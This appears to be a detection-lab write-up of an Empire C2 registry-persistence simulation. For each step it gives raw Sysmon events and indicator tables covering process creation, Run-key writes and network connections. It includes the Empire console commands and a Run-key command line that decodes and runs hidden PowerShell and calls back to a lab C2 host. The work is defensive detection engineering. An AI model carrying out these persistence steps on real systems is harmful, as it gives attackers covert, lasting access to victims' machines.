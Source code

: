 # Empire Stager

## Goal 
| Simulation # | Stager Option |
| ------------ | ------------- |
| 1            | usermodule persistence/userland/registry |

## Technical Context
### Assumption
* Attacker is a low-priv user 
* The C2 connection has established 
  
### Simulation 1
This attacker modify the registry to main the persistence in a low-priv environment. And the low-priv user simulate the reboot.


#### Payload Generation
```bash
(Empire: agents) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------

 M5N2S3RG ps 192.168.254.47  WIN-40TITGP9BI7   WIN-40TITGP9BI7\victim  powershell         920    1/0.0    2020-12-04 22:47:38  http


(Empire: agents) > interact M5N2S3RG
(Empire: M5N2S3RG) > usemodule persistence/userland/registry
(Empire: powershell/persistence/userland/registry) > set Listener http
(Empire: powershell/persistence/userland/registry) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked M5N2S3RG to run TASK_CMD_WAIT
[*] Agent M5N2S3RG tasked with task ID 1
[*] Tasked agent M5N2S3RG to run module powershell/persistence/userland/registry
(Empire: powershell/persistence/userland/registry) >
Registry persistence established using listener http stored in HKCU:Software\Microsoft\Windows\CurrentVersion\Debug.
```

#### Attack Begin

1. Execute the persistence module on empire


##### Raw Sysmon Event

User execute the payload 
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T14:47:35.932657000Z'/><EventRecordID>24216</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='3828'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 14:47:35.927</Data><Data Name='ProcessGuid'>{84453EAB-4C07-5FCA-BDC5-500400000000}</Data><Data Name='ProcessId'>920</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>powershell  -noP -sta -w 1 -enc  //5112bytes long payload//</Data><Data Name='CurrentDirectory'>C:\Users\victim\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-4AE9-5FCA-D7FA-480400000000}</Data><Data Name='LogonId'>0x448fad7</Data><Data Name='TerminalSessionId'>4</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-4C03-5FCA-F9C2-500400000000}</Data><Data Name='ParentProcessId'>3700</Data><Data Name='ParentImage'>C:\Windows\System32\cmd.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\system32\cmd.exe" </Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 920                                                                                           |          |
| parent_process_id   | 3700                                                                                           |          |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc //5112bytes long payload// |          |

C2 connection has established
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T14:47:41.676231300Z'/><EventRecordID>24217</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='2332'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-03 14:15:47.576</Data><Data Name='ProcessGuid'>{84453EAB-4C07-5FCA-BDC5-500400000000}</Data><Data Name='ProcessId'>920</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>54232</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 3                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 920                                                                                           |          |
| dest_ip           | 192.168.254.46 | my test lab c2                                                     |
| dest_port         | 80             | depends on the empire listener type, in this simulation i set http |

Attacker begin the persistence
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>13</EventID><Version>2</Version><Level>4</Level><Task>13</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T14:48:48.938191300Z'/><EventRecordID>24226</EventRecordID><Correlation/><Execution ProcessID='956' ThreadID='3828'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>T1060,RunKey</Data><Data Name='EventType'>SetValue</Data><Data Name='UtcTime'>2020-12-04 14:48:48.937</Data><Data Name='ProcessGuid'>{84453EAB-4C07-5FCA-BDC5-500400000000}</Data><Data Name='ProcessId'>920</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='TargetObject'>HKU\S-1-5-21-2892772840-4280103526-640991184-1003\Software\Microsoft\Windows\CurrentVersion\Run\Updater</Data><Data Name='Details'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 13                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 920                                                                                           |          |
| registry_path           | HKU\S-1-5-21-2892772840-4280103526-640991184-1003\Software\Microsoft\Windows\CurrentVersion\Run\Updater | |
| registry_value_name         | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"| |

After user reboot

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:34.180659100Z'/><EventRecordID>25211</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:34.133</Data><Data Name='ProcessGuid'>{84453EAB-5386-5FCA-95AE-0A0000000000}</Data><Data Name='ProcessId'>3228</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-5385-5FCA-0863-0A0000000000}</Data><Data Name='ParentProcessId'>868</Data><Data Name='ParentImage'>C:\Windows\explorer.exe</Data><Data Name='ParentCommandLine'>C:\Windows\Explorer.EXE</Data></EventData></Event>
```
##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 3228                                                                                           |          |
| parent_process_id   | 868                                                                                           |          |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x" |          |



```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:36.388822900Z'/><EventRecordID>25212</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:36.386</Data><Data Name='ProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ProcessId'>3492</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120bytes long payload//</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-5386-5FCA-95AE-0A0000000000}</Data><Data Name='ParentProcessId'>3228</Data><Data Name='ParentImage'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 3492                                                                                           |          |
| parent_process_id   | 3228                                                                                           |  the explorer.exe when OS boot up |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120bytes long payload//|          |


C2 Callback
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:41.115550900Z'/><EventRecordID>25217</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1952'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:39.108</Data><Data Name='ProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ProcessId'>3492</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>49167</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 3                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 3492                                                                                           |          |
| dest_ip           | 192.168.254.46 | my test lab c2                                                     |
| dest_port         | 80             | depends on the empire listener type, in this simulation i set http |
